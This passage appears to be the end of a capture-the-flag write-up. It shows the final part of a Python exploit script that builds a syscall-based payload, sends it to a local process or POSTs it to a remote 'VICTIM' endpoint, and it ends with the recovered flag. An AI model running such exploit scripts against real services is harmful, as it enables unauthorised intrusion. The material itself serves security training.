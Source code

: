 ```python
            0x0,
            0x0,

            SYSCALL,
        ]
    })
    
    return payload

def debug_local():
    global io

    payload = craft_payload()
    env = {'CONTENT_LENGTH': f'{len(payload)}',}
    io = initialize(env=env)

    sleep(0.2)
    io.send(payload)

    io.interactive()
    
def exploit_remote():
    proxies = {'http': 'http://127.0.0.1:8080'}
    # res = requests.post(URL, proxies=proxies, data=craft_payload()) # burp debug
    res = requests.post(VICTIM, data=craft_payload())

    log.info("Status code: %d", res.status_code)
    log.info("Response: %s", res.text)

if __name__ == '__main__':
    if args.REMOTE:
        exploit_remote()
    else:
        debug_local()
```
{% endcode %}

{% hint style="success" %}
Flag: _CTF{computational-genius-institute}_
{% endhint %}
